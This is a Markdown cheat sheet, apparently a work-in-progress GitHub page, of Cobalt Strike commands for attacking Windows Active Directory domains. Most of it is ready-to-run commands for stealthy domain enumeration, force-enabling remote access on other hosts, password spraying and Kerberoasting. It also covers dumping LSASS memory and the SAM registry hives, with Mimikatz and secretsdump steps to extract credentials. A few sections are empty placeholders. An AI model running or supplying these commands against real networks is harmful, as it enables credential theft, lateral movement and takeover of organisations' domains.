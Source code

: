 # NOTE: WORK IN PROGRESS

# Cobalt Strike Red Team Cheat Sheet
---
## Domain Enumeration

Running PowerView and SharpView
```
# PowerView:
powershell-import --> Select PowerView.ps1 to import PS1 file in memory
powershell Get-Module PowerView
powershell Get-NetUser -Identity testuser -Domain lab.com

# SharpView
execute-assembly C:\SharpView.exe Invoke-CheckLocalAdminAccess --> Check servers for local admin using current privileges
```

Running ActiveDirectory module
```
powershell import --> Select \ADModule\Microsoft.ActiveDirectory.Management.dll  file from https://github.com/samratashok/ADModule
powershell Get-ADDomainController -Domain lab.com
```

Running Sharphound (.NET version of Bloodhound) for AD domain collection
```
# Running SharpView in memory (.NET version of PowerView)
execute-assembly C:\SharpHound.exe --CollectionMethod All --Domain lab.com --Stealth --excludedomaincontrollers --windowsonly --OutputDirectory C:\users\testuser\appdata\local\temp\

# Collecting only user sessions to determine who is logged in and where:
execute-assembly C:\SharpHound.exe --CollectionMethod Session,LoggedOn --Outputdirectory C:\temp\

# Collection methods reference: https://bloodhound.readthedocs.io/en/latest/data-collection/sharphound-all-flags.html
```
---
## Local Privilege Escalation
PowerUp
```
powershell-import --> PowerUp.ps1
powershell Invoke-AllChecks | Out-File -Encoding ASCII PowerUp-checks.txt
```

------------------------------------------------------------------------------------------
## Lateral Movement
Invoke-TheHash

Enable Powershell Remoting manually
```
# Enable on local system with Admin privileges
powershell Enable-PSRemoting –Force

# Enable on remote system 
make_token AD\admin Password123! --> Token with Admin privileges on remote system is required
shell psexec.exe \\TestComputer.lab.com -h -s powershell.exe Enable-PSRemoting -Force

# Test remote access
powershell Invoke-Command -ComputerName TestComputer -ScriptBlock { whoami; hostname }
```

[RACE.ps1](https://github.com/samratashok/RACE): ACL attacks for lateral movement, persistence and privilege escalation
```
powershell-import --> RACE.ps1
make_token AD\Admin password --> This tool will require Admin privileges on the remote system
powershell Set-RemotePSRemoting -SamAccountName testuser -ComputerName ops-dc.lab.com --> Force enable PS remoting for the specific user
powershell Set-RemoteWMI -SamAccountName testuser -Computername ops-dc.lab.com --> Force enable WMI for the specific user
```
------------------------------------------------------------------------------------------
## Domain Privilege Escalation
### GPP Password
[Get-GPPPassword.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1)

### Password spraying
[DomainPasswordSpray.ps1](https://github.com/dafthack/DomainPasswordSpray)
```
powershell-import --> DomainPasswordSpray.ps1
# Get the full domain user list
powershell Get-DomainUserList -Domain lab.com -RemoveDisabled -RemovePotentialLockouts | Out-File -Encoding ascii userlist.txt

# Password spray from a username and password list
powershell Invoke-DomainPasswordSpray -UserList userlist.txt -PasswordList passlist.txt -Domain lab.com -OutFile sprayed-creds.txt

# Auto spray a specific password on an auto-generated user list (very noisy)
powershell Invoke-DomainPasswordSpray -Password Winter2020
```

### Kerberoasting
PowerView kerberoasting
```
# Get users with SPN set
powershell Get-DomainUesr -SPN

# Kerberoast all users
powershell Invoke-Kerberoast - OutputFormat hashcat | fl

# Kerberoast specific user
powershell Invoke-Kerberoast -Identity testaccount -Domain lab.com -OutputFormat hashcat | fl
```

Rubeus kerberoasting
```
# Kerberoast all users
execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHashes.txt /domain:lab.com

# Kerberoast specific user
execute-assembly C:\Rubeus.exe kerberoast /outfile:KerbHash.txt /user:testaccount /domain:lab.com
```

------------------------------------------------------------------------------------------
## Exploitation

### Chrome Session Stealing
SharpDPAPI to dump domain master key (requires DA privileges)
```
fill in
```

SharpChrome - test
```
# Dumping Chrome login passwords on remote machines


# Dumping and decryptiong Chrome user sessions on remote machines

```

------------------------------------------------------------------------------------------
## Exfiltration - Password Attacks
### Dumping LSASS locally
Dumping LSASS with ProcDump.exe (requires touching disk) (NOTE: Might get flagged by AV and raise alerts but will often still output dump file)
```
upload --> ProcDump.exe
shell ProcDump.exe -accepteula -ma lsass.exe lsass.dmp
```
Dumping LSASS with [Out-Minidump.ps from PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1) without touching disk
```
powershell Get-Process | Out-Minidump -DumpFilePath C:\temp
```
Extracting hashes offline from LSASS using Mimikatz
```
mimikatz.exe log "privilege::debug" "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords" "sekurlsa::wdigest" exit
```

### SAM database dump using reg.exe (requries local Admin)
```
shell reg.exe save HKLM\sam sam.save
shell reg.exe save HKLM\security security.save
shell reg.exe save HKLM\system system.save

# Download SAM files then dump hahses offline using Secretsdump.py
python secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

### NTDS.dit dump
[Secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to dump NTDS.dit remotely
```
fill
```
NTDSutil.exe to dump NTDS.dit locally on a Domain Controller
```
fill
```

------------------------------------------------------------------------------------------
# References
[Cobalt Strike commands cheat-sheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet)

[Sharphound](https://github.com/BloodHoundAD/SharpHound3)

[PowerShell remoting cheat sheet](https://blog.netspi.com/powershell-remoting-cheatsheet/)

[Mimikatz reference cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Mimikatz.md)

[SpectreOps Cobalt Strike command reference](https://xzfile.aliyuncs.com/upload/affix/20190126174144-9767f9f2-214e-1.pdf)
